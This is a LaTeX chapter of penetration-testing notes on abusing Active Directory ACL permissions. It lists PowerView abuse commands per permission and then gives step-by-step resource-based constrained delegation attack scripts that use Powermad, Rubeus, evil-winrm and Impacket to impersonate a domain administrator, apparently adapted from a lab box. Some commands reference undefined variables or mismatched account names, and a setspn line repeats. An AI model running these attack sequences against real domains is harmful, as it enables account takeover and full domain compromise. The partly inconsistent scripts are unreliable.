\section{ACL Abuse}
\subsection{Introduction}
\href{https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces}{Abusing Active Directory ACLs/ACEs}
Posing a serious threat to the security posture of
the domain, a slight misconfiguration to an ACL can leak permissions to other
objects that do not need it.

Attackers utilize ACE entries to either further access or establish
persistence. Many organizations are unaware of the ACEs applied to each object
or the impact that these can have if applied incorrectly. They cannot be
detected by vulnerability scanning tools, and often go unchecked for many
years, especially in large and complex environments. ACL abuse can be a great
way to move laterally/vertically and even achieve full domain compromise. Some
example Active Directory object security permissions are as follows. These can
be enumerated (and visualized) using a tool such as BloodHound, and are all
abusable with PowerView, among other tools:
\begin{itemize}
    \item \verb+ForceChangePassword+ abused with \verb+Set-DomainUserPassword+
    \item \verb+Add Members+ abused with \verb+Add-DomainGroupMember+
    \item \verb+GenericAll+ abused with \verb+Set-DomainUserPassword+ or
        \verb+Add-DomainGroupMember+
    \item \verb+GenericWrite+ abused with \verb+Set-DomainObject+
    \item \verb+WriteOwner+ abused with \verb+Set-DomainObjectOwner+
    \item \verb+WriteDACL+ abused with \verb+Add-DomainObjectACL+
    \item \verb+AllExtendedRights+ abused with \verb+Set-DomainUserPassword+ or
        \verb+Add-DomainGroupMember+
    \item \verb+Addself+ abused with \verb+Add-DomainGroupMember+
\end{itemize}

In this module, we will cover enumerating and leveraging four specific ACEs to
highlight the power of ACL attacks:
\begin{itemize}
        \item \verb+ForceChangePassword+ gives the right to reset a user's
            password without first knowing their password.
        \item \verb+GenericWrite+ - gives us the right to write to any
            non-protected attribute on an object. with this access over:
            \begin{itemize}
                    \item a user: it is possible to assign the user an SPN and perform a Kerberoasting attack. 
                    \item  a group it is possible to add a user or another security principal. 
                    \item a computer object, it is possible  to  perform a resource-based constrained delegation attack.
            \end{itemize}
        \item \verb+AddSelf+ shows security groups that a user can add themselves to.
        \item \verb+GenericAll+ this grants full control over a target object.
            Again, depending on if this is granted over:
            \begin{itemize}
                \item a user or group, it become possible to modify group membership, force change a password, or perform a targeted Kerberoasting attack. 
                \item a computer object and the Local Administrator Password
                    Solution (LAPS) is in use in the environment, it is
                    possible to  read the LAPS password and gain local admin
                    access to the machine which may aid in lateral movement or
                    privilege escalation in the domain if we can obtain
                    privileged controls or gain some sort of privileged
                    access.o
            \end{itemize}
\end{itemize}

This graphic shows an excellent breakdown of the varying possible ACE attacks
and the tools to perform these attacks from both Windows and Linux (if
applicable). 

\begin{figure}
    
\includegraphics[width=0.9\textheight,angle=90,origin=c]{ad/attacks/images/ACL_attacks_graphic.png}
  \caption{ACL attack graphic}
  \label{fig:ACL-attack-graphic}
\end{figure}

Some common attack scenarios may include:

\begin{tabularx}{\linewidth}{|l|X|}
    \hline
Attack &	Description\\
    \hline
Abusing forgot password permissions &	Help Desk and other IT users are often
granted permissions to perform password resets and other privileged tasks. If
it is possible to take over an account with these privileges (or an account in a group
that confers these privileges on its users), it is possible  to perform a
password reset for a more privileged account in the domain.\\
    \hline
Abusing group membership management &	It's also common to see Help Desk and
other staff that have the right to add/remove users from a given group. It is
always worth enumerating this further, as sometimes it is possible  add a
controled  account  into a privileged built-in AD group or a group that grants
some sort of interesting privilege.\\
    \hline
Excessive user rights &	it is common to see user, computer, and group objects
with excessive rights. This could occur after some sort of software install
(Exchange, for example, adds many ACL changes into the environment at install
time) or some kind of legacy or accidental configuration that gives a user
unintended rights. Sometimes it is possible to  take over an account that was
given certain rights out of convenience or to solve a nagging problem more
quickly.\\
    \hline
\end{tabularx}

\subsection{Key credential abuse}

This attack is described in
\href{https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab}{Shadow
Credentials: Abusing Key Trust Account Mapping for Account Takeover}.

Using the permission \verb+AddKeyCredentialLink+, it is possible to add “Key
Credentials” to the attribute \verb+msDS-KeyCredentialLink+ 
of the target user/computer object and then perform Kerberos authentication as
that account using \verb+PKINIT+. 

It allow to get the TGT of that user 




\subsection{Change a user password}
with
powerview~\ref{tool:powerview:Set-DomainUserPasswword} or on a linux box with
\verb+pth-net+ from
\href{https://github.com/byt3bl33d3r/pth-toolkit}{pth-toolkit}

\subsection{Add a user to a group}
with
powerview~\ref{tool:powerview:-DomainGroupMember} or on a linux box with
\verb+pth-net+ from
\href{https://github.com/byt3bl33d3r/pth-toolkit}{pth-toolkit}

\subsection{SPNify a user} 
with powerview~\ref{tool:powerview:Set-DomainObject} using
\href{https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname}{servicePrincipalName
attibute} or from linux box using
\href{https://github.com/ShutdownRepo/targetedKerberoast}{targetedKerberoast}

\subsection{Resource based constrained delegation attack}
Tools needed:
\begin{itemize}
    \item \href{https://github.com/Kevin-Robertson/Powermad}{powermad}
    \item \href{https://github.com/GhostPack/Rubeus}{Rubeus}
\end{itemize}


\subsubsection{attack only on windows}
structure of attacking Resource-based Constrained Delegation
\ref{windows:authentication:kerberos:delegation}:
\begin{itemize}
    \item The attacker compromises an account that has a SPN or creates one
        (“Service A”). Note that any Admin User without any other special
        privilege can create up until 10 Computer objects (MachineAccountQuota)
        and set them a SPN. So the attacker can just create a Computer object
        and set a SPN.
    \item The attacker configures resource-based constrained delegation from
        Service A to the victim host.
    \item The attacker uses Rubeus to perform a full S4U attack (S4U2Self and
        S4U2Proxy) from Service A to Service B for a user with privileged
        access to Service B
        \begin{enumerate}
            \item S4U2Self (from the SPN compromised/created account): Ask for
                a TGS of Administrator to me (Not Forwardable).
            \item S4U2Proxy: Use the not Forwardable TGS of the step before to
                ask for a TGS from Administrator to the victim host.
            \item Even if you are using a not Forwardable TGS, as you are
                exploiting Resource-based constrained delegation, it will
                work.
        \end{enumerate}
    \item The attacker can pass-the-ticket and impersonate the user to gain
        access to the victim
\end{itemize}

\begin{verbatim}
# Creating a Computer Object
import-module powermad

New-MachineAccount -MachineAccount FAKECOMPUTER 
    -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

Get-DomainComputer FAKECOMPUTER #Check if created if you have powerview

# ###
# Configuring Resource-based Constrained Delegation
# ###
# Assing delegation privileges
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKECOMPUTER$ 

# Check that it worked
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount 


$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | 
    Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor \
    -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer |
    Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer \
    -Properties 'msds-allowedtoactonbehalfofotheridentity'

# create an SPN
setspn -S pwn/TARGET_NAME.DOMAIN TARGET_NAME

# ###
# Performing a complete S4U attack
# ###
.\Rubeus.exe hash /password:123456 \
    /user:FAKECOMPUTER$ \
    /domain:domain.local
# create an SPN
setspn -S pwn/TARGET_NAME.DOMAIN TARGET_NAME

rubeus.exe s4u /user:FAKECOMPUTER$ \
    /aes256:<aes256 hash> /aes128:<aes128 hash> \
    /rc4:<rc4 hash> /impersonateuser:administrator \
    /msdsspn:cifs/victim.domain.local \
    /domain:domain.local \
    /ptt


ls \\victim.domain.local\C$

\end{verbatim}



\subsubsection{Attack on windows and linux}
\begin{itemize}
    \item the attacker has acces to a computer $c$ with a  user $u$;
    \item $u$ has WRITE privilege over a target computer $t$;
    \item $u$creates a new computer object $f$ in Active Directory (no admin
        required);
    \item $u$ leverages the WRITE privilege on the $t$ computer object and
        updates its object's attribute
        \verb+msDS-AllowedToActOnBehalfOfOtherIdentity+ to enable the newly
        created computer $f$ to impersonate and authenticate any domain user
        that can then access the target system $t$. In human terms this means
        that the target computer $t$ is happy for the computer $f$ to
        impersonate any domain user and give them any access (even Domain Admin
        privileges) to $t$;
    \item $t$ trusts $f$ due to the modified
        \verb+msDS-AllowedToActOnBehalfOfOtherIdentity+;
    \item We request Kerberos tickets for $f$ with ability to impersonate
     a Domain Admin;
    \item $u$ can access \verb+c$+ share of $t$ from $c$ 
\end{itemize}


Windows part: 
\begin{itemize}
    \item Add the new fake computer object to AD.
    \item Set the new fake computer object with Constrained Delegation privilege.
    \item Generate the password hashes for the new fake computer. 
\end{itemize}

\begin{verbatim}
evil-winrm -i IP  -u user -p password
# -------- On Server Side
# Upload tools
upload /FULL/PATH/Powermad.ps1 pm.ps1
upload /FULL/PATH/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "fake" -Value "PWN"
Set-Variable -Name "target" -Value TARGET_NAME

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "fake").Value \
    -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the 
# Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "target").Value \
    -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value \
    -Properties PrincipalsAllowedToDelegateToAccount

# With Rubeus, generate the new fake computer object password hashes. 
#  it is needed for the next step.
./r.exe hash /password:123456 /user:PWN$ /domain:DOMAIN
# create an SPN
setspn -S pwn/TARGET_NAME.DOMAIN TARGET_NAME
\end{verbatim}


Linux part:
We have exploited the security hole and given the computer object FAKE01 the
right to impersonate others. So we can now request a new Kerberos
Ticket-Granting-Ticket(TGT) to the resources on dc.support.htb while
impersonating the user administrator. This is done remotely from our attacking
system.

\begin{verbatim}
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT 
# and used KERB5CCNAME pass the ccahe file for the requested service.
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."

getST.py DOMAIN/PWN -dc-ip IP -impersonate administrator \
    -spn pwn/TARGET_NAME.DOMAIN \
    -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file 
# for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made 
# to the server as the user administrator  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
\end{verbatim}

links:
\begin{itemize}
    \item 
        \href{https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html}{Abusing
        Resource-Based Constrained Delegation to Attack Active Directory}
    \item 
        \href{https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/}{Resource-Based
        Constrained Delegation Abuse}
    \item
        \href{https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation}{Resource-based
        Constrained Delegation}
    \item
        \href{https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution}{Kerberos
        Resource-based Constrained Delegation: Computer Object Takeover}
    \item
        \href{https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-genericwrite-write-on-computer}{GenericAll / GenericWrite / Write on Computer}
\end{itemize}

\subsection{Links}
\url{https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abusing-active-directory-aclsaces}
\url{https://www.youtube.com/watch?v=z8thoG7gPd0}
